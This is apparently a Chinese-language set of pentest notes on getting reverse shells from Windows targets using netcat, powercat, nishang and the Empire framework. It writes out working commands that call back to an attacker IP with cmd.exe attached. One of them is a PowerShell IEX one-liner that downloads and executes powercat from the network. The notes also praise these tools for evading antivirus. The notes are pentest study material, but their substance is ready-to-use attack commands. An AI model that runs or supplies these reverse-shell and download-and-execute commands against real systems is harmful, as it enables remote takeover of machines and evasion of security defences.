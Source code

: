     - ![image-20220810163546188](漏洞探测和利用.assets/image-20220810163546188.png)

**nc反弹**

- 
    靶机需安装netcat工具


- 靶机：`nc [攻击机ip] [port] -e c:\windows\system32\cmd.exe`

**powercat反弹**

- https://www.cnblogs.com/-mo-/p/11487997.html

- powercat是netcat的powershell版本，powershell在Windows操作系统下，拥有的权限较高，功能免杀性（渗透中往往因为杀毒软件而渗透失败）都要比netcat好用的多。

	```powershell
  powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c [攻击机ip] -p [port] -e cmd

  #下载到目标机器本地后执行
  Import-Module ./powercat.ps1PS C:\WWW> powercat -c 192.168.99.242 -p 1234 -e cmd
  ```

- nishang时基于powershell的渗透测试工具，需要powershell的版本达到3.0及以上。推荐win10版本电脑或windowsserver2008以上版本服务器。
    - https://github.com/samratashok/nishang
    -  靶机：Invoke-PowerShellTcp -Reverse -IPAddress [攻击机ip]  -Port [port]

**msf反弹**:

**Empire反弹**

- Empire是一款针对Windows平台的，使用powershell脚本作为攻击载荷的渗透攻击框架代码，具有从stager生成，提权到渗透维持的一系列功能，无需powershell.exe就可以使用powershell 的代理功能，还可以快速在后期部署漏洞利用模块，内置模块有键盘记录等，可以躲避网络检测和大部分安全防护工具，是一个基于powershell 的远控木马。


* 项目地址：<https://github.com/EmpireProject/Empire>

* 在实际渗透中，当拿到WebShell上传的MSF客户端无法绕过目标主机的杀毒软件时,可以执行Empire的Payload来绕过，成功之后再使用Empire的模块将其反弹回Metasploit。

- **步骤**

    - 靶机使用Empire的usemodule code_execution/invoke_shellcode模块修改两个参数：Lhost、Lport。将Lhost修改为MSF所在主机的IP，按以下命令设置：

    -  ```
         set Lhost [攻击机ip]
         set Lport [port]
  ```
